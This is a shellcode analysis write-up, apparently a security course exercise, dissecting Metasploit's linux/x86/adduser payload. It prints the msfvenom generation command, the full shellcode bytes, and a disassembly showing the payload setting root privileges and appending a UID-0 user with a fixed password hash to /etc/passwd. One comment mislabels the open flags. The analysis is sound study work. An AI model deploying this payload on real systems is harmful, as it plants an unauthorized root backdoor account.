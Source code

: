 # linux/x86/adduser
- Analysis by: William Moody
- PA-25640

I first dumped the shellcode:
`msfvenom -p linux/x86/adduser USER=user PASS=pass -f c`

Then pasted it into `shellcode.c`, and compiled with:
`gcc shellcode.c -o shellcode`.

Libemu didn't give any meanigful output for this shellcode. I did however use the 
output of ndisasm, created with this command:
`echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x22\x00\x00\x00\x75\x73\x65\x72\x3a\x41\x7a\x77\x31\x37\x63\x54\x6e\x6e\x4a\x41\x41\x41\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u - -b 32 -p intel > linux-x86-adduser.ndisasm`

To analyze the shellcode itself I decided to use GDB with the [pwndbg plugin](https://github.com/pwndbg/pwndbg). 

**First I needed to skip my runner code and get to the actual shellcode. The commands needed are:**
```
b*main+201
r
stepi
```

**The first thing the shellcode does is set the real and effective user id of the process to 0 (root)**

![](img/adduser_setreuid.png)

`setreuid(0, 0);`

```
00000000  31C9              xor ecx,ecx				; ECX = 0
00000002  89CB              mov ebx,ecx				; EBX = 0
00000004  6A46              push byte +0x46
00000006  58                pop eax					; EAX = 0x46
00000007  CD80              int 0x80				; setreuid(...)
```

**Next open "/etc/passwd", which is the file where users are defined on linux**

![](img/adduser_open.png)

`int fd = open("/etc/passwd", 0x401);`

```
00000009  6A05              push byte +0x5
0000000B  58                pop eax					; EAX = 0x5
0000000C  31C9              xor ecx,ecx				; ECX = 0
0000000E  51                push ecx				
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f	; Push "/etc//passwd\x00"
0000001E  89E3              mov ebx,esp				; EBX = *"/etc/passwd\x00"
00000020  41                inc ecx					; ECX = 1
00000021  B504              mov ch,0x4				; ECX = 0x401 = O_NOCTTY | O_WRONLY 
00000023  CD80              int 0x80				; open(...)
```

**Assembly code from here on was incorrectly disassembled by ndisasm, so I won't include it. What happens is:**

`buf` is a predefined series of characters with the value
`"user:Azw17cTnnJAAA:0:0::/:/bin/sh\n"`

The shellcode appends this line to "/etc/passwd"

![](img/adduser_write.png)

`write(fd, buf, len(buf));`

Then the shellcode exits without setting a specific status code:

![](img/adduser_exit.png)

`exit();`
